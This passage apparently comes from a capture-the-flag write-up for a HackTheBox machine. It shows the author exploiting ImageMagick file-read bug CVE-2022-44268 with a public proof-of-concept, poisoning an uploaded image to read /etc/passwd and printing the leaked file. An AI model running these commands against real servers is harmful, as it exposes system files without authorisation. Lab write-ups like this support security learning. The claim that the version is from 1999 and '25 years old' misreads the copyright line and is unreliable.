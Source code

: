 We can check the executable's version as follows:

```bash
$ ./magick --version
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5)
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)
```

This version is of `1999`, 25 years old! Let's check if there is a known vulnerability we could exploit:

![](google_search_magick.png)

An **information disclosure** vulnerability exists, [CVE-2022-44268](https://nvd.nist.gov/vuln/detail/CVE-2022-44268), with various PoCs, such as [this](https://github.com/kljunowsky/CVE-2022-44268) one. Let's try to use it:

```bash
# clone the repo
$ sudo git clone https://github.com/kljunowsky/CVE-2022-44268
Cloning into 'CVE-2022-44268'...
remote: Enumerating objects: 27, done.
remote: Counting objects: 100% (27/27), done.
remote: Compressing objects: 100% (23/23), done.
remote: Total 27 (delta 8), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (27/27), 7.32 KiB | 2.44 MiB/s, done.
Resolving deltas: 100% (8/8), done.
$ cd CVE-2022-44268/
$ ls
CVE-2022-44268.py  Dockerfile  README.md  requirements.txt
# give executable permissions to the python script
$ sudo chmod +x CVE-2022-44268.py
```

We can now download a random image, poison it, and then upload it:

```bash
$ sudo python3 CVE-2022-44268.py --image ../dog.jpeg --file-to-read /etc/passwd --output poisoned_dog.jpeg
```

![](uploaded_image.png){: .normal width="65%"}

Next, we can check if the exploit was successful:

```bash
$ python3 CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/65a91a1ec4c4c.png
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
```